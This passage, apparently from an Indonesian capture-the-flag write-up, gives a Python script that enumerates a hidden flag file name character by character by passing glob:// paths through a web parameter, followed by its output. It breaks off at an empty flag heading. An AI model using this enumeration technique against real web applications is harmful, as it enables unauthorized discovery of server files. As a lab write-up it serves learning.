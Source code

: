 <a id="codespr1344"></a>

## Final Brute Force

Kita lakukan beberapa perubahan kode untuk bisa mendapatkan nama file tersebut

```python
import requests

karakter = "abcdefABCDEF0123456789"

clue = list("flag")

url = "http://ctf.iluv.my.id:9999/"

while len(clue) != 19:
    for brute in karakter:
        kirim = str("glob:///tmp/chall/" + "".join(clue) + brute + "*")
        noob = requests.get(
            url, 
            params={
            "dir": kirim
            },
        )
        if noob.text == "":
            continue
        else:
            clue.append(brute)
            print("Sukses : " + "".join(clue) + ".txt")
            break
```
```bash
noob@codes:~$ python final-brute.py
Sukses : flag1.txt
Sukses : flag16.txt
Sukses : flag164.txt
Sukses : flag1647.txt
Sukses : flag16474.txt
Sukses : flag164745.txt
Sukses : flag164745e.txt
Sukses : flag164745e7.txt
Sukses : flag164745e79.txt
Sukses : flag164745e796.txt
Sukses : flag164745e7966.txt
Sukses : flag164745e7966f.txt
Sukses : flag164745e7966f6.txt
Sukses : flag164745e7966f6e.txt
Sukses : flag164745e7966f6e4.txt
```

<a id="codespr1345"></a>

## FLAG 
